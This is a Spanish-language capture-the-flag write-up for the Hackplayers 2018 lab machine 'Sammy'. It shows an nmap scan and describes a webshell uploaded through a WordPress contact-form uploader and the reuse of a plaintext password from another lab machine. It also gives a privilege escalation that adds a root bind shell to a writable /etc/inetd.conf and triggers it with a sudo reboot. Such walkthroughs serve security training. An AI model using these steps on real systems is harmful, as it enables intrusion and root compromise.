


# CTF Hackplayers 2018 - Sammy

Maquina ‘Sammy’ 10.42.0.153

```bash
$ nmap -sV 10.42.0.153
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 6.6.1_hpn13v11 (FreeBSD 20140420; protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.18 ((FreeBSD) PHP/5.6.19)
3306/tcp open  mysql   MySQL (unauthorized)
```

El servicio http aloja una aplicación wordpress. En la página de contacto se encuentra un file uploader que podemos utilizar para subir una webshell.

Esta webshell se almacena en el directorio */wp-content/uploads/*.



Una vez tenemos acceso al servidor, vemos que existe un usuario bob. Por lo que probamos a acceder con la contraseña *KsupesLd819/*  conseguida anteriormente en la máquina Cisco.

Si utilizamos `sudo -l` podemos ver como el usuario *bob* tiene permisos para reiniciar la maquina. Por lo que sospechamos que la elevación podría hacerse modificando algunos de los servicios que arrancan al iniciar la máquina.

En este caso el servicio vulnerable es *inetd*, ya que los permisos del archivo */etc/inetd.conf* nos permiten modificarlo.

Modificamos el archivo de configuración *inetd.conf* para montar una bind shell en el puerto 21 correspondiente al servicio ftp.

```
ftp stream tcp nowait root /bin/sh -i
```

```bash
$ sudo reboot
```

Una vez reiniciada la máquina, nos conectamos al puerto 21 y obtenemos una shell con el usuario root.


